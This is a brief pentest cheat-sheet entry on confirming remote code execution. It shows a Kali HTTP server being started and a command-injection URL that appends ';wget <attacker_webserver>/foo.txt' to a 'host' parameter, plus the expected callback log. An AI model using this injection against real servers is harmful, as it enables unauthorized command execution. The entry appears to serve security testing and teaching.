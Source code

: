 # RCE (by example)



## RCE

┌──(kali@nullbrain)-[~]
└─$ sudo python3 -m http.server 80
[sudo] password for kali:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

### Curl
http://<vulnerable>/index.php?host=127.0.0.1;wget%20<attacker_webserver>/foo.txt

Expected Log:

`<vulnerable_host_ip> - - [<timestamp>] "GET /foo.txt HTTP/1.1" 404 -`


This test will indicate that we could potentially execute RCE with some sort of payload.